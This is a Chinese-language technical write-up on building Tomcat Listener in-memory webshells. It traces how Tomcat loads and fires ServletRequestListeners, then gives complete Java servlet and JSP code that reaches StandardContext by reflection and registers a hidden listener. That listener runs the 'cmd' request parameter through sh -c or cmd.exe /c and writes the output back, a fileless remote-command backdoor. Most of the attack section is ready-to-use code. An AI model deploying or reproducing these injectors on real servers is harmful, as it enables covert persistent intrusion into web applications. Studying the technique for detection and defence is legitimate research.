# Java Security Of Tomcat Listener

## Preparation

​	在之前学习`Filter`内存马和`Servlet`内存马时不难看出，内存马的实现就是动态注册一个`Filter`/`Servlet`，然后在其中编写恶意类方法，即可起到无文件落地同时可以执行命令的目的。

​	`Listener`分为以下几种：

- `ServletContextListener`，服务器启动和终止时触发；
- `HttpSessionListener`，有关`Session`操作时触发；
- `ServletRequestListener`，访问服务时触发。

​	其中，`ServletRequestListener`是最适合用来作为内存马的，因为`ServletRequestListener`是用来监听`ServletRequest`对 象的，当访问任意资源时，都会触发`ServletRequestListener#requestInitialized`方法。



## Process Analysis

​	环境搭建：

```java
package listener;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;

@WebListener()
public class HelloListener implements ServletRequestListener {

    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        String name = sre.getServletRequest().getClass().getName();
        System.out.println(name);
        System.out.println("Listener...");
    }
}
```

​	跟进`javax.servlet.ServletRequestEvent`，该类可以通过`getServletRequest`方法来获取`ServletRequest`。



​	运行构建的`Demo`，可以看到，每次请求都会触发`Listener`，且`getServletRequest`方法获取到的`ServletRequest`是`org.apache.catalina.connector.RequestFacade`。并且在`org.apache.catalina.connector.RequestFacade`的属性中存在`Request`属性，可以通过反射来获取。可以看到在下面的示例代码中，成功获取到的请求中的`reuqest`属性。

```java
package listener;

import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.RequestFacade;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;
import java.lang.reflect.Field;

@WebListener()
public class HelloListener implements ServletRequestListener {

    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        RequestFacade request = (RequestFacade) sre.getServletRequest();
        try {
            Class<?> aClass = Class.forName("org.apache.catalina.connector.RequestFacade");
            Field field = aClass.getDeclaredField("request");
            field.setAccessible(true);
            Request request1 = (Request) field.get(request);
            System.out.println(request1);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```



​	通过反射获取`Request`属性，获取其请求的参数用来执行命令，并利用其的`Response`将命令执行的结果回显。

```java
package listener;

import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Response;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.Scanner;

@WebListener()
public class HelloListener implements ServletRequestListener {

    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        RequestFacade request = (RequestFacade) sre.getServletRequest();
        String cmd = request.getParameter("cmd");
        try {
            Class<?> aClass = Class.forName("org.apache.catalina.connector.RequestFacade");
            Field field = aClass.getDeclaredField("request");
            field.setAccessible(true);
            Request request1 = (Request) field.get(request);
            Response response = request1.getResponse();

            if (cmd != null) {
                boolean isLinux = true;
                String osType = System.getProperty("os.name");
                if (osType != null && osType.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] command = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                String output = scanner.hasNext() ? scanner.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```



​	上文分析了如何构造恶意的`Listener`，接着来看看如何动态注册上文构造的恶意的`Listener`。在之前分析`Tomcat Architecture`时，提到过在`org.apache.catalina.core.StandardContext`类的`startInternal`方法中，会分别调用`listenerStart`、`filterStart`和`loadOnStartup`来分别触发`Listener`、`Filter`、`Servlet`的构造加载。

​	跟进`org.apache.catalina.core.StandardContext#listenerStart`方法，该方法调用`org.apache.catalina.core.StandardContext#findApplicationListeners`方法来获取`listeners`数组，接着挨个从`listeners`数组取出并进行实例化，然后存入`results`数组中。

​	接着遍历`results`数组，根据不同类型的`Listener`，分别添加进`eventListeners`数组和`lifecycleListeners`数组。之后会调用`org.apache.catalina.core.StandardContext#setApplicationEventListeners`方法来清空`applicationEventListenersList`并重新赋值。而`applicationEventListenersList`中存放的正是之前实例化后的`listener`。







​	通过上文的分析中可以知道，`org.apache.catalina.core.StandardContext#listenerStart`方法会将`Listener`实例化后添加到`applicationEventListenersList`中，接着来看看如何触发实例化的`Listener`。

​	在`Demo`中的`requestInitialized`方法中下断点，看看在`requestInitialized`方法前实现了调用了一些什么方法。跟进`org.apache.catalina.core.StandardContext#fireRequestInitEvent`方法，该方法调用了`org.apache.catalina.core.StandardContext#getApplicationEventListeners`方法，而`getApplicationEventListeners`方法中返回的正是前面的`applicationEventListenersList`。接着遍历`instances`数组，并调用每个`listener`的`requestInitialized`方法。因此如果能够在`applicationEventListenersList`中添加构造的恶意的`Listener`，则能调用到构造的恶意`Listener`。





## Achievement

### Idea

​	动态注入`Listener`内存马的具体思路如下:

- 继承并编写一个恶意`Listener`；
- 获取`StandardContext`；
- 调用`StandardContext#addApplicationEventListener`添加恶意`Listener`。

### Dynamic Registration

#### Servlet

```java
package servlet;

import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Response;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;

import javax.servlet.ServletContext;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.Scanner;

@WebServlet(name = "ListenerMemoryShellServlet", value = "/ListenerMemoryShellServlet")
public class ListenerMemoryShellServlet extends HelloServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
        super.doGet(request, response);
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) {
        try {
            ServletContext servletContext = request.getSession().getServletContext();
            Field context = servletContext.getClass().getDeclaredField("context");
            context.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
            Field context1 = applicationContext.getClass().getDeclaredField("context");
            context1.setAccessible(true);
            StandardContext standardContext = (StandardContext) context1.get(applicationContext);

            ServletRequestListener listener = new ServletRequestListener() {
                @Override
                public void requestDestroyed(ServletRequestEvent sre) {
                }

                @Override
                public void requestInitialized(ServletRequestEvent sre) {
                    RequestFacade requestFacade = (RequestFacade) sre.getServletRequest();
                    try {
                        String cmd = request.getParameter("cmd");
                        Field requestField = RequestFacade.class.getDeclaredField("request");
                        requestField.setAccessible(true);
                        Request request = (Request) requestField.get(requestFacade);
                        Response response = request.getResponse();

                        if (cmd != null) {
                            boolean isLinux = true;
                            String osType = System.getProperty("os.name");
                            if (osType != null && osType.toLowerCase().contains("win")) {
                                isLinux = false;
                            }

                            String[] command = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                            InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                            Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                            String output = scanner.hasNext() ? scanner.next() : "";
                            response.getWriter().write(output);
                            response.getWriter().flush();
                        }
                    } catch (Exception e) {
                        e.printStackTrace();
                    }
                }
            };
            standardContext.addApplicationEventListener(listener);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```



### JSP

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="org.apache.catalina.connector.RequestFacade" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    ServletContext servletContext = request.getSession().getServletContext();
    Field context = servletContext.getClass().getDeclaredField("context");
    context.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
    Field context1 = applicationContext.getClass().getDeclaredField("context");
    context1.setAccessible(true);
    StandardContext standardContext = (StandardContext) context1.get(applicationContext);

    ServletRequestListener listener = new ServletRequestListener() {
        @Override
        public void requestDestroyed(ServletRequestEvent sre) {
        }

        @Override
        public void requestInitialized(ServletRequestEvent sre) {
            RequestFacade requestFacade = (RequestFacade) sre.getServletRequest();
            try {
                String cmd = request.getParameter("cmd");
                Field requestField = RequestFacade.class.getDeclaredField("request");
                requestField.setAccessible(true);
                Request request = (Request) requestField.get(requestFacade);
                Response response = request.getResponse();

                if (cmd != null) {
                    boolean isLinux = true;
                    String osType = System.getProperty("os.name");
                    if (osType != null && osType.toLowerCase().contains("win")) {
                        isLinux = false;
                    }

                    String[] command = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                    InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                    Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                    String output = scanner.hasNext() ? scanner.next() : "";
                    response.getWriter().write(output);
                    response.getWriter().flush();
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    };
    standardContext.addApplicationEventListener(listener);
    response.getWriter().write("Listener Inject Successfully...");
%>
```


